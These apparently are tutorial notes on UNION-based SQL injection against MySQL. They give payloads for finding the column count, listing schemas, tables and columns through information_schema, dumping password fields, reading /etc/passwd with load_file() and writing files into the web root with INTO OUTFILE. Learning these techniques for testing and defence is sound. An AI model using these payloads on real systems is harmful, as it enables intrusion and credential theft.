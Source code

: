 They can be used to combine of output of two SELECT statements
This method only works if the number of columns in both the statements are the same

````sql
SELECT * FROM login 
UNION 
SELECT 1, 2, 3;
````

In place of numbers we can use SQL functions

````sql
SELECT * FROM login 
UNION 
SELECT database(), user(), version();
````

#### Finding Number of Columns

1. <u>Brute Force Approach</u>

We can try different number of columns till we find the result that works
union select 1# (Error)
union select 1,2# (Error)

2. <u>ORBER BY Clause</u>

We cause the query `ORBER BY 20#` and see if we get error if so there are less an 20 columns
Then we try 10. If no error which means there are either exactly 10 or more than 10 columns
No we can try values between 10 and 20 till be find the no. of columns

 > [!NOTE]
 > Not all columns from the DB are going to be present in output. Only the fields that are fetched from the DB can be used for fetching information

#### Finding Tables Names and Column Values

1. <u>View DB Names</u>

The "schema_name" column consist of the DB names

````sql
SELECT schema_name 
FROM information_schema.schemata;
````

So we can used "schema_name" to find all the DB

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), schema_name, version() 
FROM information_schema.schemata;#
````

2. <u>View Table Names in DB</u>

The "table_name" column consist of the table name

````sql
SELECT table_name 
FROM information_schema.tables 
WHERE table_schema="<db-name>";
````

Now we can view all the tables in the DB using the following

````sql
UNION
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), table_name, version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

The `group_concat()` function will show all the results as an single string

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), group_concat(table_name), version() 
FROM information_schema.tables 
WHERE table_schema="<db-name>";#
````

3. <u>Table Column Names</u>

The "column_name" filed consist of the column names of the table

````sql
SELECT column_name 
FROM information_schema.columns 
WHERE table_name='<table-name>';
````

The columns of the table can be viewed as follows

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, database(), 8, user(), column_name, version() 
FROM information_schema.columns 
WHERE table_name='<table-name>';#
````

4. <u>View Data from Columns</u>

````sql
UNION 
SELECT 1, 2, 3, 4, 5, 6, id, 8, password, column_name, version 
FROM <table-name>;#
````

#### Reading and Writing Files to Server

1. <u>Reading Data from File</u>

Load File can be used to load files on Server

````sql
UNION 
SELECT 1, load_file('/etc/passwd'), null, null;#
````

2. <u>Writing Data to File</u>

Outfile command can be used to write data to a file on the server

````sql
UNION 
SELECT null, 'example text', null, null INTO OUTFILE '/var/www/example.txt';#
````

For reading and writing to the server we need to have the right permissions so only works if the permissions are miss configured
